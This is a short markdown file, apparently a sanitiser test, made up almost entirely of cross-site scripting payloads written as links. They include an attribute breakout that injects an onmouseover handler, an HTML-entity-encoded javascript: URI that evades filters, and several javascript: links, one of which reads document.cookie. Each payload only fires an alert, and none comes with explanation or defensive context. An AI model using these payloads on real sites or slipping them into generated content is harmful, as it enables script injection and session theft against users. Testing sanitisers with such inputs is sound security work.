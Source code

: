 

[Schopath](https://github.com/"/onmouseover="alert(/schopath/)"/x="ZeroByte.ID)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[TEST](javascript:alert(document.domain))
[Click Me](javascript:alert('Uh oh...'))
[clickme](javascript:this;alert(document.cookie&#41;)
